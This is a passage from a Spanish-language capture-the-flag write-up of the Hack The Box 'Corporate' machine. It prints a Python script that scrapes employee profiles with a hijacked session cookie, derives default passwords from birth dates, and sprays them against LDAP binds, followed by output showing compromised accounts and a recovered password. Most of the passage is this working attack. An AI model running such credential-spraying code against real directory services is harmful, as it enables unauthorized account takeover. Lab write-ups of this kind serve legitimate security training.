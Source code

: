 El servicio contra el que vamos a probar las credenciales es LDAP, ya que por su mecanismo de autenticación simple podemos tomar el nombre de usuario directamente de la página que estamos parseando y probar fácilmente lo que nos estamos armando:

```python
import requests
import ldap3
import time

from bs4 import BeautifulSoup

# Set the cookie and open file to save valid users
cookie = "<YOUR-COOKIE-HERE>"
file = open("valid_users.txt", "w")

counter = 0
server = ldap3.Server(host="10.8.0.1",port=389)

print("Building passwords...")
# Users are in this numeric range
for x in range(5001,5078):
    html = BeautifulSoup(requests.get(f"http://people.corporate.htb/employee/{x}", cookies={"CorporateSSO":cookie}).text, features='lxml')
    element = html.find(class_="table")
    td_elements = element.find_all('td', limit=4)

    # Date is always on 4th column
    date_string = td_elements[3].text
    # Email has the name and is on the 3rd column
    username = td_elements[2].text.split("@")[0]

    time_struct = time.strptime(date_string, '%m/%d/%Y')
    date = time.strftime("%d%m%Y", time_struct)
    final_password = f"CorporateStarter{date}"
    
    conn = ldap3.Connection(server,user=f"uid={username},ou=users,dc=corporate,dc=htb", password=final_password, authentication="SIMPLE")
    authenticated = conn.bind(True)
    if authenticated:
        print(f"Got auth with uid {username}")
        file.write(f"{username}:{final_password}")
        counter = counter + 1

print(f"Wrote {counter} valid users.")
file.close()
```
{: file="ldap_brute.py" }

Viendo la salida, podemos ver unos cuantos:

```bash
❯ python3.12 ldap_brute.py
Building passwords...
Got auth with uid 
elwin.jones
Got auth with uid 
laurie.casper
Got auth with uid 
nya.little
Got auth with uid 
brody.wiza
Wrote 4 valid users.
❯ cat valid_users.txt 

elwin.jones:CorporateStarter04041987
```